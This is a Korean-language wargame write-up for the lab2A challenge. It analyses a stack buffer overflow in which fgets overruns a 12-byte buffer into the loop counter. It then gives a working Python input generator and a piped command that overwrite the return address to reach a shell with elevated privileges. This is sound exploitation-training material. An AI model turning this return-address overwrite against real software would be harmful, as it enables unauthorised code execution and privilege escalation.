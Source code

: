 ## 1. 문제 확인
- ID : lab2A
- Target : /level/lab02/lab2A
- flag : /home/lab2end/.pass
```
	lab2A@warzone:/levels/lab02$ ./lab2A
	Input 10 words:
	1234567890
	abcdefg
	1111111111
	2222222222
	3333333333
	4444444444
	5555555555
	6666666666
	7777777777
	8888888888
	Here are the first characters from the 10 words concatenated:
	1a12345678
	Not authenticated
	lab2A@warzone:/levels/lab02$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>

	/*
 	* compiled with:
 	* gcc -O0 -fno-stack-protector lab2A.c -o lab2A
 	*/

	void shell()
	{
            printf("You got it\n");
            system("/bin/sh");
	}

	void concatenate_first_chars()
	{
            struct {
                char word_buf[12];
                int i;
                char* cat_pointer;
                char cat_buf[10];
    	    } locals;
    	    locals.cat_pointer = locals.cat_buf;

    	    printf("Input 10 words:\n");
    	    for(locals.i=0; locals.i!=10; locals.i++)
    	    {
        	// Read from stdin
        	if(fgets(locals.word_buf, 0x10, stdin) == 0 || locals.word_buf[0] == '\n')
        	{
            	printf("Failed to read word\n");
            	return;
        	}
        	// Copy first char from word to next location in concatenated buffer
        	*locals.cat_pointer = *locals.word_buf;
        	locals.cat_pointer++;
    	    }

    	    // Even if something goes wrong, there's a null byte here
    	    //   preventing buffer overflows
    	    locals.cat_buf[10] = '\0';
    	    printf("Here are the first characters from the 10 words concatenated:\n\%s\n", locals.cat_buf);
	}

	int main(int argc, char** argv)
	{
            if(argc != 1)
            {
                printf("usage:\n%s\n", argv[0]);
                return EXIT_FAILURE;
            }

            concatenate_first_chars();

            printf("Not authenticated\n");
            return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
#### 2.2.1 concatenate_first_chars()
- word_buf 크기가 12byte인데 fgets()함수에서 16byte(0x10)를 입력받을 수 있으므로 4byte overflow 발생 가능
```c
    ...
    struct {
            char word_buf[12];
            int i;
            char* cat_pointer;
            char cat_buf[10];
    } locals;
    ...
    if(fgets(locals.word_buf, 0x10, stdin) == 0 || locals.word_buf[0] == '\n')
    {
    ...
```
- word_buf 가 overflow 되면 i 값까지 덮어쓰게 되고, i 값이 10이 아니면 for문이 반복되므로 최종적으로 cat_buf 의 크기인 10byte보다 더 큰 값을 덮어쓸 수 있음
```c
    ...
    locals.cat_pointer = locals.cat_buf;

    printf("Input 10 words:\n");
	for(locals.i=0; locals.i!=10; locals.i++)
    {
    ...
    	*locals.cat_pointer = *locals.word_buf;
        locals.cat_pointer++;
    }
```
- fgets()함수를 통해 12byte 문자를 입력하면 Enter(0xa)까지 총 13byte가 word_buf 에 쓰여지고 다음 변수 i 까지 덮어쓰게 됨
  (※ i값이 0xa(10)부터 증가되므로 for문 조건에 의해 무한 반복됨)
```
    |-----------   word_buf  -----------| |---- i ----|
    [31 32 33 34 35 36 37 38 39 30 31 32] [0a 00 00 00]
      1  2  3  4  5  6  7  8  9  0  1  2   \n    
```
- for문을 반복하면서 word_buf 입력값의 첫 byte를 복사하여 cat_buf 에 순차적으로 붙여넣음
```
    ...
    0x08048777 <+90>:    mov    eax,DWORD PTR [ebp-0x18]
    0x0804877a <+93>:    movzx  edx,BYTE PTR [ebp-0x28]
    0x0804877e <+97>:    mov    BYTE PTR [eax],dl
    0x08048780 <+99>:    mov    eax,DWORD PTR [ebp-0x18]
    0x08048783 <+102>:   add    eax,0x1
    0x08048786 <+105>:   mov    DWORD PTR [ebp-0x18],eax
    ...
```
- cat_buf 의 위치는 word_buf 위치(ebp-0x28)로부터 20byte(0x14) 떨어져 있으므로 ebp-0x14 가 되며 cat_buf 값이 20byte가 넘어가게 되면 SFP, RET 주소를 순차적으로 덮어쓰게 됨
```
    0x0804871d <+0>:     push   ebp
    0x0804871e <+1>:     mov    ebp,esp
    0x08048720 <+3>:     sub    esp,0x38
    0x08048723 <+6>:     lea    eax,[ebp-0x28]
    0x08048726 <+9>:     add    eax,0x14
    0x08048729 <+12>:    mov    DWORD PTR [ebp-0x18],eax
    ...
```

<br/><br/>
## 3. Exploit
- 변수 i 값을 변경하여 반복문 횟수를 늘리고 cat_buf 값이 리턴주소까지 덮어쓰도록 함 
```
    =============================================>
    [word_buf][i][cat_pointer][cat_buf][dummy][SFP][RET]
        12     4       4          10      10    4  main() <-- shell() 주소로 변경
```
- 쉘을 띄워줄 shell()함수의 주소를 확인하여 리턴주소로 사용함
```
    gdb-peda$ p shell
    $2 = {<text variable, no debug info>} 0x80486fd <shell>
    gdb-peda$
```
- 다음 코드를 실행하여 입력 데이터를 생성함
```python
    print("a"*12)
    
    for i in range(23):
    	print("b")
        
    print("\xfd")
    print("\x86")
    print("\x04")
    print("\x08")
    
    print("")  // for문 강제 종료를 위한 입력
```
- 생성된 입력값을 전달하여 프로그램을 실행해주면 됨
  (※ 파이프는 cat 명령의 결과값만 전달하기 때문에 ;cat 명령을 추가하여 쉘이 input을 받을 수 있도록 해줘야 함)
```
    lab2A@warzone:/levels/lab02$ python /tmp/lab2a.py > /tmp/lab2a_input
    lab2A@warzone:/levels/lab02$ (cat /tmp/lab2a_input;cat) | ./lab2A
    Input 10 words:
    Failed to read word
    You got it
    id
    uid=1008(lab2A) gid=1009(lab2A) euid=1009(lab2end) groups=1010(lab2end),1001(gameuser),1009(lab2A)
```
